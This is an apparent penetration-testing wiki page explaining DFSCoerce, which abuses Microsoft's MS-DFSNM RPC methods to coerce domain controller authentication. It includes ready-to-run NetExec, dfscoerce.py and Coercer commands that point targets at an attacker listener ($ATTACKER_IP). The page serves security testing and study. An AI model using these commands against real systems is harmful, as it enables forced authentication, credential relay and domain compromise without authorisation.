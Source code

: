 # MS-DFSNM abuse (DFSCoerce)

## Theory

MS-DFSNM is Microsoft's Distributed File System Namespace Management protocol. It provides an RPC interface for administering DFS configurations ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)). That interface is available through the `\pipe\netdfs` SMB named pipe.

In mid-2022, [Filip Dragovic](https://twitter.com/filip\_dragovic) demonstrated the possibility of abusing the protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case (as of July 6th, 2022), the following methods were detected vulnerable: `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot`. It is worth noting this coercion method only works against domain controllers.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to check if the target is vulnerable to DFSCoerce.

```bash
netexec smb <TARGET> -u <USER> -p <PASSWORD> -M dfscoerce
```
{% endtab %}

{% tab title="Practice" %}
#### DFSCoerce

The following Python proof-of-concept ([https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)) implements the `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` methods.

```bash
dfscoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

#### Coercer

Another alternative is to use the [Coercer](https://github.com/p0dalirius/Coercer/tree/master) tool (python) as follow.

```bash
# Coerce
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-protocol-name MS-DFSNM -l $ATTACKER_IP -t $TARGET_IP

# Coerce a specific method
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-method-name NetrDfsRemoveStdRoot -l $ATTACKER_IP -t $TARGET_IP
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979" %}

{% embed url="https://github.com/Wh04m1001/DFSCoerce" %}
